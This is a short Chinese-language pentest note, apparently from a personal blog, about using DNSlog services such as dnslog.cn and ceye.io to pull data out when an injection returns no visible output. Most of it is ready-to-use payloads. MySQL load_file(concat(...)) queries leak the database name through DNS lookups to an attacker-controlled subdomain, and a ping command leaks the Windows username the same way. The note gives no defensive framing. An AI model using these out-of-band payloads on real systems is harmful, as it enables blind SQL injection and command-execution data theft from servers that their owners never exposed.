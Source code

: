 - DNS利用-平台介绍&SQL注入&命令执行等

```plain
1.平台
http://www.dnslog.cn
http://admin.dnslog.link
http://ceye.io
2.应用场景：
解决不回显，反向连接，SQL注入，命令执行，SSRF等
在平台上申请一个账号，使用者要支持访问这个地址才能使用，如果不支持那就没办法使用。在注入中只有load_file支持这钟类型的注入。
现在举个命令执行的例子：ping %USERNAME%.ez1dw8.dnslog.cn
SQL注入：
select load_file(concat('\\\\',(select database()),'.7logee.dnslog.cn\\aa'));
and (select load_file(concat('//',(select database()),'.69knl9.dnslog.cn/abc')))
命令执行：
ping %USERNAME%.7logee.dnslog.cn
```

![1645418887712-08ab9e47-21d5-4987-b781-9c19b0ebe1c3.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133105039-1964082801.png)